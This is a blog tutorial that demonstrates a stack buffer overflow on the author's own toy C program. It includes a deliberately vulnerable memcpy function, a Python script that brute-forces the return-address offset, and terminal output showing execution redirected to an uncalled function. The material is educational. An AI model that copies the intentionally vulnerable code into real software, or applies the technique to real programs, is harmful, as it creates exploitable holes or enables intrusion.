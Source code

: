 
---
title: "simple buffer overflow exploit"
layout: post
date: 2023-05-11 22:44
headerImage: false
tag:
- exploit
- c++
- reverse engineering
star: true
category: blog
author: torbenfeldthusen
description: Reverse Engineering
---


The key to understanding exploits is the concept of the universal machine – the fact that trying to restrict what a computer can do is literally fighting against the laws of physics. Lots of money can be poured into software which sometimes only takes a couple of days to get compromised, its a Sisyphean task where the goal can only be to make it “hard enough” – as its likely that anything complex enough to be useful is vulnerable in some way.

Having said that, the classic exploit is quite avoidable but regrettably common – the buffer overflow, a specific kind of common bug which makes it possible to write over a program’s stack to take control of it’s behaviour externally. This was about as much as I knew, but I didn’t really understand the practicalities so I thought I’d write an example to play with. There are quite a lot of examples online, but a lot of them are a little confusing so I’d thought I try a simpler approach.

Here is a function called “unlock_door”, we’ll compile this into a C program and try to force it to execute even though it’s not called from the program:
```
void unlock_door() { 
  printf("DOOR UNLOCKED\n"); 
  exit(1); 
}
```
Now we need a vulnerability, this could be something completely unrelated to “unlock_door” but called in the same program – or it’s library code:

```
void vulnerable(char *incoming_data, unsigned int len) {
    char fixed_buffer[10];
    // woop! put some variable length data in 
    // a fixed size container with no checking
    memcpy(fixed_buffer,incoming_data,len);
    // print out the return pointer, helpful for debugging the hack!
    printf("return pointer is: %p\n", 
        __builtin_return_address(0));
}
```
The dodgy memcpy call copies incoming_data into fixed_buffer on the stack which is 10 bytes big. If incoming_data is bigger then it will copy outside of the reserved memory and overwrite other data on the stack. One of the other things stored on the stack is the return address value – which tells the program where the function was called from so it can go back when it’s finished. If we can set incoming_data from outside the program, then we can exploit it to redirect program flow and jump into unlock_door instead of returning properly.

We’ll make getting data into the program very simple indeed, and input it via a base16 encoded argument string converted to binary data passed to our vulnerable function in main:

```
unsigned int base16_decode(const char *hex, char **data) {
  unsigned int str_size = strlen(hex);
  *data = malloc(str_size/2); 
  for (unsigned int i=0; i<str_size; i+=2) {
    if (sscanf(&(hex[i]), "%2hhx", &((*data)[i/2])) != 1) {
      return 0;
    }
  }
  return str_size/2;
}

void main(int argc, char **argv) {
  char *data;
  unsigned int size = base16_decode(argv[1],&data);
  vulnerable(data,size);
  free(data);
  printf("normal exit, door is locked\n");
  exit(0);
}
```
This is our vulnerable C program finished. If we run it with just a few bytes of data it operates normally and prints out the current return pointer, sending it back into the main function it was called from:

```
$ ./dodgy_door_prog 0000000000
return pointer is: 0x40088c
normal exit, door is locked
```

We can now inspect it in order to figure out the exploit. The first thing we can do is run the standard bintools “nm” command on the binary which prints out the addresses of all the functions in the executable. We can search this with grep to print the address of the target function we want to call:

```
$ nm dodgy_door_prog | grep unlock_door
00000000004007fa T unlock_door
```
The smart thing to do next is to work out where the return pointer would be relative to the fixed_buffer variable and offset this address to provide a payload to send the the program – so I wrote a python program to figure it out for me:

```
import os
import string

# this is stored in memory in reverse (little endian format)
unlock_door_addr = "fa0740"

def build_payload(length):
    return "00"*length+unlock_door_addr

ret = 0
count = 0
# try increasing offsets and until we get the exit code from unlock_door
# ignore all segfaults and bus errors etc and keep retrying
while ret in [0,35584,34560,34304,33792]:
    payload=build_payload(count)
    cmd="./dodgy_door_prog "+payload
    ret = os.system(cmd);
    print cmd
    count+=1

```
the addresses are stored in memory backwards to what you’d expect as it’s little-endian memory layout (on intel and everything else these days). The script keeps adding zeros in order to offset the target address until it sits in the right bit of stack memory (you can see the return pointer gradually getting corrupted) and eventually triggers the function:


```
./dodgy_door_prog 00000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Segmentation fault (core dumped)
./dodgy_door_prog 0000000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Bus error (core dumped)
./dodgy_door_prog 000000000000000000000000000000000000000000fa0740
return pointer is: 0x40088c
Bus error (core dumped)
./dodgy_door_prog 00000000000000000000000000000000000000000000fa0740
return pointer is: 0x400840
Segmentation fault (core dumped)
./dodgy_door_prog 0000000000000000000000000000000000000000000000fa0740
return pointer is: 0x404007
Segmentation fault (core dumped)
./dodgy_door_prog 000000000000000000000000000000000000000000000000fa0740
return pointer is: 0x4007fa
DOOR UNLOCKED!
```

The successful offset is 24 bytes. Now the good news is that this is only possible on GCC if we compile with “-fno-stack-protector”, as by default for the last year or so it checks functions that allocate arrays on the stack by using a random “canary” value pushed to the stack, if the canary gets altered it stops the program before the function returns. However not all functions are checked this way as it’s slow, so it’s quite easy to circumvent for example if changed from an array to to the address of a local variable instead.

More advanced versions of this exploit also insert executable code into the stack to do things like start a shell process so you can run any commands as the program. There is also an interesting technique called “Return Oriented Programming” where you can analyse an executable to find snippets of code that end in returns (called “gadgets”) and string them together to run your own arbitrary programs. This reminds me of the recent work we’ve been doing on biological viruses, as it’s analogous to how they latch onto sections of bacterial DNA to run their own code.
    

